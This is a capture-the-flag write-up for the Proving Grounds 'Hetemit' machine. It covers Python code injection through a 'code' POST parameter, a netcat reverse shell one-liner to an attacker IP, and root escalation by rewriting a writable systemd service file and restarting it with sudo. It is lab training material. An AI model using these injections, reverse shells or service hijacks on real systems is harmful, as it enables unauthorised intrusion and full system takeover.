Hetemit is an intermediate Proving Grounds box, also rated as very hard by the community. This machine involves changing service files in order to gain privilege escalation.

`nmap` scan:

```
nmap <target ip> -sC -sV -Pn -sS -p-
```







Two interesting ports stand out: `80` and `50000`. They're both `http` services, so let's check out `50000` in the browser first.



These seem to be either directories or paths that can be accessed. Visit `/verify`:



"code" could potentially be a placeholder for executable programs, or maybe it is code masked under a variable. We can use trial and error with `curl` and see what exactly "code" is:



"code" ended up being a variable. We tested `code=2*2` as a `POST` request which evaluated to `4` instead of returning an error.

If "code" can evaluate simple equations, it could be the case that it can run shell commands as well. We'll try running `code=os.system('whoami')`:



`0` was returned, but the response body did not error out. This is an example of an error:



For future reference, if `os` was not available we could potentially use `code=__import__('os').system('whoami')`. Double underscores around "import" are necessary for one liners or if we need to include python code within a single string.

Okay, now that we know shell code doesn't give us any errors, maybe we can try setting up a connection between our attacker machine and the target machine. Have a `nc` listener on port `18000`, which is an open port from our `nmap` scan, then have this line:

```
code=os.system('nc <attacker ip> 18000 -e /bin/bash')
```





Great! We got a shell. We can upgrade it with:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Or we can have a `penelope` listener instead:



Check for `sudo` commands with:

```
sudo -l
```



As the user `cmeeks`, it seems like we have permissions to start, stop and restart this service. Could be useful later on, we'll keep note of this.

Transfer `linpeas` over to the target's `/tmp` folder and run it. Don't forget to `chmod +x` the file once transferred.









These findings all point to a file called `pythonapp.service`, and we apparently have write privileges over it. Sounds sensitive and interesting, let's check it out. `cd` into `/etc/systemd/system`, then we can `nano` `pythonapp.service`:



This `.service` file tells Linux how to start, stop and manage a specific program or service. `ExecStart` is the first command that is run once the service starts. Since we have write privileges over this file, we can try running a reverse shell one liner while also changing the `User` to `root`:



Have a `nc` listener on port `80` and then reboot the service on the target since we have permissions to do so (`sudo -l`):



Rooted! :partying_face:
